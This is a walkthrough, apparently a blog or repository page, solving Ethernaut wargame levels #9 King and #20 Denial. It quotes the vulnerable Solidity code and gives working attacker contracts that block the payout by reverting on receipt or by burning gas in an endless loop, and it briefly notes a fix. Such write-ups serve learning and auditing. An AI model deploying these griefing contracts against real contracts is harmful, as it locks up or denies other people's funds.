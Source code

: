 ## Denial of service / gas griefing

### Ethernaut #9 King

This simple contract is assigns the creator as the owner during construction, the creator is also set as the ```king```.  After that everytime someone sends Eth to the contract they will become king if they send a value larger than the previously sent value.  At the end the owner will try to reclaim the value.  Our objective is to prevent the owner from claiming the contract.  

```Java
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

When I deployed this on Polygon Mumbai the initial value of the contract was 0.001 MATIC.  One thing to note is that this contract is written in Solidity 0.8.0, but the Eth is sent via ```.transfer()``` which is no longer the preferred method of sending Eth.  ```.transfer()``` requires 2300 gas to send.  The preferred method now is: ```.call()```.  ```.call()``` will return a boolean, and continue if the send worked or not, but ```.transfer()``` will simple revert if the send cannot take place.  Maybe we can prevent ```.transfer()``` from executing.  Yes, we can do that with a contract that doesn't have ```fallback()``` or ```receive()``` functions.  

The attack will works something like this: 

1. create a contract with no ```fallback()``` or ```receive()``` 
2. The attacker contract will send more than 0.001 MATIC to the victim

The following code accomplishes this: 

```Java
contract KingAttacker {
    constructor() payable {
        require(msg.value > 0.001 ether);
    }

    function attack(address _victim) external {
        (bool callSucessful,) = payable(_victim).call{value: address(this).balance}("");
        require(callSucessful, "Call didn't go through");
    }
}
```

### Ethernaut #20 Denial

This is a simple wallet that withdraws funds slowly.  The objective here is to prevent the original owner from being able to withdraw funds.  If you become a partner you can also receive funds.  Let's take a look at the withdraw method.  

```Java
    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

Funds are sent to the partner with an unchecked ```.call()``` so this prevents the partner from not implementing ```receive()```.  ```.transfer()``` has a gas limit of 2300, however there is no gas limit on ```.call()```.  Perhaps we can trigger some gas intensive operations when Ether is sent to us.  

Code to do this is given below.  

```Java
contract DenialAttacker {
    uint dummy; 

    receive() payable external {
        for (uint i; i<9999999999; i++){
            dummy = i;
        }
    }
}
```

This was sucessful.  One way to fix this is not call an external contract.  You could instead tell the user that thier funds were ready for withdraw.  